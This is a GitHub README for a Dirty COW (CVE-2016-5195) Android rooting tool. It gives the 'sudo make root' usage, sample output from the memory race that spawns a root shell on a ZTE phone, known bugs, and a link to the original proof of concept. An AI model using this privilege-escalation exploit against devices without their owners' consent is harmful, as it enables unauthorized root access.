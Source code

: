 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
```
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
```
##Bugs / Problems  
1)  
  System Will Hang If You Exec a command on spawned shell Temp Fix: Exit Back to Terminal and type  
  "adb shell"  
  "run-as"  
  Going "adb shell run-as" will produce the hang  
2) 
  Android 5 (Samsung Galaxy S4)  
  setresgid/setresuid failed  
  
3) 
    Incompatible with devices with system partitions made read-only by the _hardware_, such as the DigiLand DL718M and other supercheap       devices. 
   
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
